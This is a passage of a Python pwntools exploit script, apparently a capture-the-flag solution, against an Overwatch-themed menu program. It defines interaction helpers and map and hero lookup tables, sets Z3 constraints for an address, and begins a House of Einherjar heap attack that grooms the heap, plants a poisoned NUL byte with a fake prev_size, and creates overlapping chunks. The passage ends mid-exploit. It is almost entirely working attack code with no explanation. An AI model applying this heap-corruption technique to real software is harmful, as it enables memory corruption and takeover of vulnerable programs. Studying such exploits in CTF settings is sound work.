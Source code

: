 
def gatherTeammate(target):
    if target == "hi":
        r.sendlineafter(">","1")
    else:
        r.sendlineafter(">","2")
    return r.recvuntil("Round:")

def changeName(name):
    r.sendlineafter(">", "3")
    r.sendlineafter(":", name)

def changeEmail(email):
    r.sendlineafter(">", "4")
    r.sendlineafter(":", email)

def processRound():
    r.sendlineafter(">", "5")

def exploit(r):
    libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")

    randBytes_addr = 0x602040 

    maps={"Temple of Anubis":0, "Hanamura":1, "Volskaya Industries":2,\
          "Watchpoint: Gibraltar":3, "Dorado":4, "Route 66":5,\
          "Lijiang Tower":6, "Ilios":7, "Nepal":8, "King'S Row":9,\
          "Numbani":10, "Hollywood":11, "Eichenwalde":12}
        
    heroes={"D.VA":5,"Orisa":1,"Reinhardt":2,"Roadhog":0,"Winston":3,"Zarya":4,\
            "Genji":0,"Mccree":1,"Pharah":2,"Reaper":3,"76":4,"Sombra":5,"Tracer":6,\
            "Ana":3,"Lucio":0,"Mercy":1,"Symmetra":4,"Zenyatta":2,\
            "Baston":3,"Hanzo":2,"Junkrat":5,"Mei":1,"Turret":4,"Widowmaker":0}
    
    # Initialize some Z3 constraints
    s = z3.Solver()
    hi_addr = z3.BitVec('hi_addr',32)
    lo_addr = z3.BitVec('lo_addr',32)
    s.add(hi_addr > 0x0)
    s.add(hi_addr < 0x10000)
    s.add(lo_addr > 0x0)
    s.add(lo_addr < 0x10000)
 
    # Step 1. -- Create overlapping chunks  
    log.info("starting House of Einherjar attack...")
    log.info("grooming heap...")
    changeName("A"*0x80)  # A 
    changeEmail("B"*0x80) # B
    
    processRound()
    
    changeName("C"*0xef) # free A + malloc C 
    # Step 1.2.
    fake_prev_size = p64(0x120)
    # Step 1.1.
    changeEmail("B"*8*16 + fake_prev_size) # poisoned NUL byte appended 
    log.success("poisoned NUL byte inserted!")  
    processRound()
    # Step 1.3.
    changeName("") # merge A + C  
    log.success("overlapping chunks created!\n\n") 